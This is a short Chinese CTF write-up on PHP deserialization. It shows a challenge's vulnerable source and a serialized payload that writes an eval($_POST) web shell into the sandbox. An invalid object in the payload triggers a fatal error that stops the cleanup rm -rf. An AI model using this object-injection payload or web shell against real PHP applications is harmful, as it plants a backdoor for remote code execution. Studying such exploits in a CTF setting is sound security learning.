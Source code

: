 ## 2021-8-16PHP反序列化
#php #反序列化 
题目[入口](http://ctf.igml.top:7002/)
初始页面回显
```php
<?php  
show_source(__FILE__);  
$dir = './sandbox/'.md5($_SERVER['REMOTE_ADDR']);  
echo $dir;  
echo "<br>";  
is_dir($dir) ?: mkdir($dir);  
$line = $_GET['a'];  
class B {  
    public $content;  
    public $filename;  
    function __destruct() {  
        if(strstr($this->filename,'..')){  
            die('No');  
        }else{ file_put_contents('./sandbox/'.md5($_SERVER['REMOTE_ADDR']).'/'.$this->filename, $this->content);  
        }  
          
    }  
}  
$a = @unserialize($line);  
system('rm -rf '.$dir);  
echo "unserialize yyds";  
./sandbox/701435ed682069e3a94bb1b674b7ff6c  
unserialize yyds
```
[[../Language/PHP/function&class/$_SERVER#^68a820|REMOTE_ADDR]]提取当前服务器的IP地址并进行MD5运算，执行`ping ctf.igml.top`得到IP地址为 202.112.51.236

解
```php
O:1:"B":3:{s:7:"content";s:31:"<?php echo 1;eval($_POST[a]);?>";s:8:"filename";s:5:"1.php";s:6:"decade";O:3:"pdo":0:{};}
```
fatal error，导致后面代码停止执行，但是反序列化的destruct方法还是会执行